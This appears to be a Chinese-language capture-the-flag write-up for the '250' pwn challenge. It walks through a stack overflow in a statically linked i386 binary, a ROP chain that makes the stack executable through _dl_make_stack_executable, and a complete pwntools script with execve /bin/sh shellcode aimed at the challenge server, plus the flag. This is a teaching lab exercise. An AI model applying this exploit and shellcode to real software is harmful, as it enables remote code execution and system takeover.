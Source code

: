 # 250

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e404403f-bef6-4711-bc78-1b97880f9a09_2)

这题真的是，看了三个wp，每位大佬的做法都不一样。只剩下写不出来的我像个250。

-   Arch:     i386-32-little
    <Br>RELRO:    Partial RELRO
    <BR>Stack:    No canary found
    <BR>NX:       NX enabled
    <BR>PIE:      No PIE (0x8048000)

只开了nx，有很多姿势等着我们用来getshell。在反编译时用了很久，让我以为这题代码量上天，然而看了main，确定就这么点？

```c
undefined4 main(void)

{
  size_t local_14 [2];
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  setbuf((FILE *)stderr,(char *)0x0);
  printf("SSCTF[InPut Data Size]");
  __isoc99_scanf(&DAT_080bbbbf,local_14);
  temp = malloc(local_14[0]);
  printf("SSCTF[YourData]");
  read(0,temp,local_14[0]);
  puts("[Ok!]");
  print(temp,local_14[0]);
  return 0;
}
```

但是这么点意味着漏洞点也少啊。看了关键的scanf，printf和read，都没发现什么问题。不明白malloc在干啥，只执行一次似乎没有必要。然后看[wp](https://blog.csdn.net/seaaseesa/article/details/104188302)发现反编译这么久的原因是glibc被静态编译包含，因此耗时这么长都是在反编译libc。好家伙以前我一直不知道，老是疑惑怎么有的题目反编译那么久但是很多函数又用不上，今天终于知道了原因。所以漏洞呢？当你一个一个点开这些函数，会发现printf有蹊跷。

```c
void print(void *param_1,size_t param_2)

{
  char local_3e [58];
  
  memcpy(local_3e,param_1,param_2);
  puts(local_3e);
  return;
}
```

虽然不知道printf的真正实现，但我有101%的信心，libc里的实现不可能这么潦草。关键在于这有很明显的栈溢出，看来rop是一种姿势，毕竟没开pie。然而程序里并没有system和/bin/sh。字符串我们可以尝试自己写入，没有system只能用execve，或者syscall。这是其中一位大佬的思路，需要对栈非常了解，因为构建时的情况很复杂。我选择学习上面wp的做法。

程序中有个函数dl_make_stack_executable，作用是将栈变得可执行，和nx对着干。这里不错，第三行就调用了dl_make_stack_executable。

![dl_make_stack_executable](../../images/dl_make_stack_executable.png)

要小心，跳来跳去的同时还要注意调用的gadget有没有什么要求。比如dl_make_stack_executable函数本身是有一些限制的。

![constraint](../../images/constraint.png)

注意0x080a0b03处，要求ecx的值等于__libc_stack_end。查看汇编发现ecx的值等同于eax，又在0x0809a267处将ebp+0x18赋值给了eax。那么此处的条件其实是ebp+0x18=__libc_stack_end。那就把ebp的值设为__libc_stack_end-0x18。0x80A0B05处就是__libc_stack_end的地址，因此ebp=0x80A0B05-0x18。

最后一步我真的不懂了。正常来说，_dl_make_stack_executable执行完后会回到0x0809aa270处，但是此处是test语句，不是我们想要继续执行的gadget。所以我们需要用gadgets修改_dl_make_stack_executable_hook（_dl_make_stack_executable调用的其实是这个hook）的值，改为0x080a0af1，即从push esi为入口改为下面的push ebx为入口。真的不明白为什么这样ret时就会不到原来的地方，而是回到栈里的ROP gadgets。唯一的猜测是_dl_make_stack_executable倒数二行汇编是pop ebx，pop esi，而我们只push了一个值，所以会导致原本的返回地址被pop出去了，这样接下来的地址就是我们的gadget，程序就会把那个地址看作返回地址。成功返回到gadget。

最后的gadget是jmp esp，跳到栈顶。我们再在栈顶上布置好shellcode，成功getshell。

```python
from pwn import *  
   
sh = remote('61.147.171.105',54788)  
_dl_make_stack_executable_hook = 135182836
'''''调用_dl_make_stack_executable 
.text:0809A260                 or      ds:__stack_prot, 7 
.text:0809A267                 mov     eax, [ebp+arg_10] 
.text:0809A26A                 call    _dl_make_stack_executable_hook 
'''  
call_dl_make_stack_executable = 0x809A260  
#inc dword ptr [ecx] ; ret  
inc_p_ecx = 0x080845f8  
pop_ecx = 0x080df1b9  
jmp_esp = 0x080de2bb  
  
sh.sendlineafter('SSCTF[InPut Data Size]',str(0x100))  
  
payload = b'a'*0x3A + p32(0x80A0B05 - 0x18)  
#修改_dl_make_stack_executable_hook，偏移一个push，这样ret时就不会返回到原来的位置  
payload += p32(pop_ecx) + p32(_dl_make_stack_executable_hook) + p32(inc_p_ecx)  
#调用_dl_make_stack_executable让栈变得可执行，并跳到栈里继续执行shellcode  
payload += p32(call_dl_make_stack_executable) + p32(jmp_esp)  
#shellcode  
payload += b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
  
sh.sendlineafter('SSCTF[YourData]',payload)  
  
sh.interactive()  
```

- ### Flag
  > cyberpeace{34761b938314402e8a6f46f415510303}